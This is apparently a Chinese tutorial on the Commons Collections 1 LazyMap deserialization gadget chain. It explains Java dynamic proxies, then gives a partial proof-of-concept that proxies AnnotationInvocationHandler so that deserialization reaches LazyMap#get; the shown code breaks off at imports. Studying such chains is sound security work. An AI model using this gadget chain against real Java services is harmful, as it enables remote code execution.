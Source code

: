 `AnnotationInvocationHandler#invoke`看到`invoke`方向就大概联想到Java的动态代理机制。
## 动态代理
> 总结为一句话就是，被动态代理的对象调用任意方法都会通过对应的InvocationHandler的invoke方法触发

这里再举个例子说明一下如何自动调用的`invoke`方法
> InvocationHandlerExample.class

`InvocationHandlerExample类`继承了`InvocationHandler`，实现了`invoke`方法，作用是在监控到调用的方法名是get的时候，返回一个特殊字符串 Hacked Object 。
```java
package com.myproject;

import java.lang.reflect.Proxy;
import java.util.HashMap;
import java.util.Map;

public class test {

    public static void main(String[] args) throws Exception {
        InvocationHandlerExample invocationHandlerExample = new InvocationHandlerExample(new HashMap());
        Map proxyMap = (Map) Proxy.newProxyInstance(Map.class.getClassLoader(),new Class[]{Map.class},invocationHandlerExample);
        proxyMap.put("1","Hacked Object");
        System.out.println(proxyMap.get("1"));
    }
}
```
![image.png](./Commons Collections1 LazyMap 利用链.assets/2023_05_19_10_37_39_LzVDY148.png)
可以看到调用的`get`方法，但是被我们动态代理中的`invoke`方法拦截了，返回了`Hacked Object`
也就是说这个Map对象经过动态代理处理之后，**动态代理对象调用任何一个方法时会调用**`**handler**`**中的**`**invoke**`**方法**。
我们回看`sun.reflect.annotation.AnnotationInvocationHandler`，会发现实际上这个类实际就是一个`InvocationHandler`，我们如果将这个对象用Proxy进行代理，那么在`readObject`的时候，只要调用任意方法，就会进入到`AnnotationInvocationHandler#invoke`方法中，进而触发我们的`LazyMap#get`
![image.png](./Commons Collections1 LazyMap 利用链.assets/2023_05_19_10_37_40_InNf1G9U.png)
## 构建POC
对`sun.reflect.annotation.AnnotationInvocationHandler`对象进行Proxy
```java
Map outerMap = LazyMap.decorate(innerMap, transformerChain);
// 构建对象
Class cls = Class.forName("sun.reflect.annotation.AnnotationInvocationHandler");
Constructor constructor = cls.getDeclaredConstructor(Class.class, Map.class);
constructor.setAccessible(true);
InvocationHandler handler = (InvocationHandler) constructor.newInstance(Target.class, outerMap);
Map proxyMap = (Map) Proxy.newProxyInstance(Map.class.getClassLoader(), new Class[] {Map.class}, handler);  // 代理对象
handler = (InvocationHandler) constructor.newInstance(Target.class, proxyMap);  // 包裹
```
```java
package com.myproject;

import org.apache.commons.collections.*;
import org.apache.commons.collections.functors.ChainedTransformer;
import org.apache.commons.collections.functors.ConstantTransformer;
import org.apache.commons.collections.functors.InvokerTransformer;
import org.apache.commons.collections.map.LazyMap;
import org.apache.commons.collections.map.TransformedMap;

import javax.swing.*;
import java.io.*;
import java.lang.annotation.Retention;
import java.lang.annotation.Target;
```